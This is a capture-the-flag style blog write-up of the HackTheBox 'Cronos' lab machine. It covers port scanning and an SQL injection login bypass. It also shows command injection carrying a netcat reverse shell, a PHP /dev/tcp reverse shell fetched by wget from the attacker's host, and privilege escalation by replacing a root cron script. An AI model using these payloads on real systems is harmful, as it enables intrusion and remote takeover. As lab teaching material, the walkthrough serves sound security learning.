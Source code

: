 ```yaml
---
layout: default
title:  "HackTheBox"
date:   2020-07-14
categories: HackTheBox
---
```


# HackTheBox - Cronos

Welcome back with another HackTheBox machine


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594878011254_Screenshot+2020-07-16+at+11.09.53+AM.png)


Cronos is a **Linux** based **Medium** severity machine. This machine is highly recommended for beginners. Initial shell requires basic web application tricks whereas post exploitation is also something which we have seen before.

**Tools:**


- PortScan - Masscan and Nmap
- Subdomain Enumeration - Dig

**Initial Recon:**

As always start with scanning all ports, I have used masscan and nmap.


    #masscan
    open tcp 80 10.10.10.13 1594390115
    open tcp 53 10.10.10.13 1594390124
    open udp 53 10.10.10.13 1594390129
    open tcp 22 10.10.10.13 1594390142

**Nmap**


    PORT   STATE  SERVICE VERSION
    22/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
    |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
    |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
    53/tcp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    80/tcp open   http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                         
    | http-cookie-flags:                                                                                                                                                                                         
    |   /:                                                                                                                                                                                                       
    |     PHPSESSID:                                                                                                                                                                                             
    |_      httponly flag not set                                                                                                                                                                                
    |_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                 
    |_http-title: Login Page                                                                                                                                                                                     
    | vulners:                                                                                                                                                                                                   
    |   cpe:/a:apache:http_server:2.4.18:                                                                                                                                                                        
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679                                                                                                                                        
    |       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668                                                                                                                                        
    |       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169                                                                                                                                        
    |       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167                                                                                                                                        
    |       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211                                                                                                                                        
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312                                                                                                                                        
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715                                                                                                                                       
    |       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082                                                                                                                                       
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
    |       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
    |       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    22/udp closed ssh
    53/udp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.10.3-P4-Ubuntu
    80/udp closed http
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.16 (94%), Linux 3.2 - 4.9 (94%), Linux 4.2 (94%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 or 4.2 (93%), Linux 3.16 - 4.6 (93%), Linux 3.18 (93%), Linux 3.8 - 3.11 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE (using proto 1/icmp)
    HOP RTT       ADDRESS
    1   560.94 ms 10.10.14.1
    2   543.36 ms admin.cronos.htb (10.10.10.13)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    

Accessing cronos.htb we result in something like this


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594881469139_Screenshot+2020-07-16+at+12.06.48+PM.png)


 
You will get subdomain **admin.cronos.htb** , only when you configure ip address and domain in **/etc/hosts**

Another way to find subdomains is using dig command (DNS Zone transfer misconfiguration ) [Reference](https://hackertarget.com/zone-transfer/)

**Initial Shell as www-data:**

By accessing admin.cronos.htb, a login pages was there


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594879944308_Screenshot+2020-07-16+at+11.41.57+AM.png)


I tried using common password which actually didn’t work, but found basic SQLi which allowed me in


    username: ‘ or 1=1#
    password: ‘ or 1=1#

So there is something where we can execute our shell commands


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880129024_Screenshot+2020-07-16+at+11.44.45+AM.png)


If you are one who have played [DVWA](http://www.dvwa.co.uk/) (Damn Vulnerable Web Application), then this won’t be a big deal for,


    127.0.0.1 && ls


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880448697_Screenshot+2020-07-16+at+11.50.39+AM.png)



    127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 1234 >/tmp/f


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880601810_Screenshot+2020-07-16+at+11.53.13+AM.png)


Use below command to read user flag


    cat /home/noulis/user.txt

**Privilege Escalation:**

While running crontab found a intresting crontab activity which runs every minute


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594886147602_Screenshot+2020-07-16+at+1.25.06+PM.png)


Lets backup the file content so we can retrive it if something goes wrong


    mv artisan artisan.bak


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885217965_Screenshot+2020-07-16+at+1.10.03+PM.png)



So i created a php reverse shell file in my local machine


    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1'");
    ?>

Transfer the file to vulnerable machine using command


    In my machine
    python -m SimpleHTTPServer <portnumber>


    In Victim machine
    wget http://10.10.x.x:<portnumber>/filename

I have used this you can use any file transfer technique

Now lets delete file **artisan** and change our file name as artisan


    rm artisan
    mv shell.php artisan

Since this file executes for every minute, we can start a netcat listner in our machine 

BOOM!!


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885450090_Screenshot+2020-07-16+at+1.13.58+PM.png)


Thank you !! Will see you again in my next post

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>

